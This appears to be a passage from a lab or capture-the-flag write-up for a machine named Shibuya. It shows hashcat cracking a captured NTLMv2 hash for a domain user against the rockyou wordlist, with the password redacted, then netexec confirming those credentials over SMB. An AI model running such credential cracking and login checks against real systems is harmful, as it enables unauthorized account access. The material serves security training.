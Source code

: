 ```zsh
➜  Shibuya hashcat -a 0 -m 5600 nigel.ntlmv2 /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-penryn-AMD Ryzen 9 6900HX with Radeon Graphics, 1438/2941 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921519
* Keyspace..: 14344386

NIGEL.MILLS::SHIBUYA:<REDACTED>:<REDACTED>
                                                          
Session..........: hashcat
Status...........: Cracked
<SNIP>
Stopped: Sun Apr 20 17:59:53 2025
```

We successfully cracked the hash.

```bash
➜  Shibuya netexec smb shibuya.vl -u nigel.mills -p <REDACTED>
SMB         10.10.64.180    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.180    445    AWSJPDC0522      [+] shibuya.vl\nigel.mills:<REDACTED>
```
